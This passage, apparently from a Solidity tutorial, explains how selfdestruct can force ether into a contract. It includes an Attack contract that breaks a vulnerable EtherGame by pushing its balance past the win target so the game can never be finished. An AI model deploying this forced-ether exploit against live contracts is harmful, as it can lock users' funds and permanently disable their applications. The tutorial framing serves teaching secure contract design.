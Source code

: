 ```js
        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

When we deploy these contracts and interact with the functions, we realize that we are able to `deposit` Ethereum to the `EtherGame` contract but there is a limit set to prevent the game from going over a set target. Without a fallback or receive function, we can't send ETH directly into the contract.

> A wise choice would be to force ETH into a contract via `selfdestruct` and hence blocking the game mechanics, making the game unplayable forever.

The `Selfdestruct` keyword will forcefully push value into another smart contract, whether the receiving contract is prepared to receive funds or not.

## Conclusion

The `selfdestruct` function is a powerful tool in Ethereum's Solidity language. Use it wisely and with caution. It provides not only a means to delete a contract but also the ability to forcefully push any amount of Ethereum into any other contract address. It also serves as a useful instrument for exploiting smart contracts by forcing Ethereum into places where they don't typically go.
